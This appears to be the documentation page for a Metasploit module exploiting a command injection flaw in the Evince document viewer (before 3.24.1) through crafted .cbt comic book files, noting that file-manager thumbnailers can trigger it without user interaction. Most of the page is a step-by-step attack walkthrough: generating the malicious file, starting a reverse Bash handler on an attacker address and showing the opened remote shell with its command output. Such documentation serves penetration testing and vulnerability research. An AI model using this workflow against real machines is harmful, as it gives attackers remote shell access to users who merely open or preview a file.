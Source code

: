 ## Description

  This module exploits a command injection vulnerability in Evince
  before version 3.24.1 when opening comic book `.cbt` files.

  Some file manager software, such as Nautilus and Atril, may allow
  automatic exploitation without user interaction due to thumbnailer
  preview functionality.

  Note that limited space is available for the payload (<256 bytes).
  Reverse Bash and Reverse Netcat payloads should be sufficiently small.


## Vulnerable Application

  [Evince](https://wiki.gnome.org/Apps/Evince) is a document viewer
  for multiple document formats.

  This module has been tested successfully on evince versions:

  * 3.4.0-3.1 + nautilus 3.4.2-1+build1 on Kali 1.0.6
  * 3.18.2-1ubuntu4.3 + atril 1.12.2-1ubuntu0.3 on Ubuntu 16.04


## Verification Steps

  1. ```use exploit/multi/fileformat/evince_cbt_cmd_injection```
  2. ```set PAYLOAD <PAYLOAD>```
  3. ```run```
  4. The module should generate the malicious `msf.cbt` file
  5. ```handler -p <PAYLOAD> -H <LHOST> -P <LPORT>```
  6. Copy `msf.cbt` to target host and open with Evince
  7. You should receive a new session


## Options

  **FILENAME**

  The cbt document file name (default: `msf.cbt`)


## Scenarios

  ```
  msf > use exploit/multi/fileformat/evince_cbt_cmd_injection 
  msf exploit(multi/fileformat/evince_cbt_cmd_injection) > set payload cmd/unix/reverse_bash
  payload => cmd/unix/reverse_bash
  msf exploit(multi/fileformat/evince_cbt_cmd_injection) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf exploit(multi/fileformat/evince_cbt_cmd_injection) > run

  [*] Writing file: msf.cbt (1078272 bytes) ...
  [+] msf.cbt stored at /root/.msf4/local/msf.cbt
  msf exploit(multi/fileformat/evince_cbt_cmd_injection) > mv /root/.msf4/local/msf.cbt /var/www
  [*] exec: mv /root/.msf4/local/msf.cbt /var/www

  msf exploit(multi/fileformat/evince_cbt_cmd_injection) > use exploit/multi/handler 
  msf exploit(multi/handler) > set payload cmd/unix/reverse_bash
  payload => cmd/unix/reverse_bash
  msf exploit(multi/handler) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf exploit(multi/handler) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Command shell session 1 opened (172.16.191.188:4444 -> 172.16.191.160:39362) at 2019-02-03 00:16:59 -0500

  id
  uid=1000(test) gid=1000(test) groups=1000(test),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
  uname -a
  Linux ubuntu-16-04-x64 4.4.0-140-generic #166-Ubuntu SMP Wed Nov 14 20:09:47 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
  ```


## Manual Cleanup

To prevent re-exploitation from a thumbnailer process:

  ```
  /usr/bin/killall evince-thumbnailer
  /usr/bin/killall atril-thumbnailer
  ```

